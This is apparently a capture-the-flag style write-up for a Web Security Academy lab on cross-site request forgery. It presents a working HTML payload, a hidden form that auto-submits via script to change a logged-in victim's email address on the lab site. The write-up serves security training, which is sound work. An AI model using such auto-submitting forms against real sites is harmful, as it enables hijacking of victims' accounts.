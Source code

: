 # 3. Cross-site request forgery
## Lab: CSRF vulnerability with no defenses | Web Security Academy
### Description
To solve the lab, we need to craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to our exploit server.

### Exploit
We create a form with email input, that will be sent to our url. Since no CSRF token is used, the form will be accepted and the email will be changed.

```html
<form 
  action="https://0a24008204f819cd824f38e600b7009b.web-security-academy.net/my-account/change-email" 
  method="POST"
>
  <input type="hidden" name="email" value="exploit@mail.com" />
</form>
<script>
  document.forms[0].submit();
</script>
```

<p align="center">
  <img src="/captures/03.01.01.png"><br/>
</p>
<p align="center">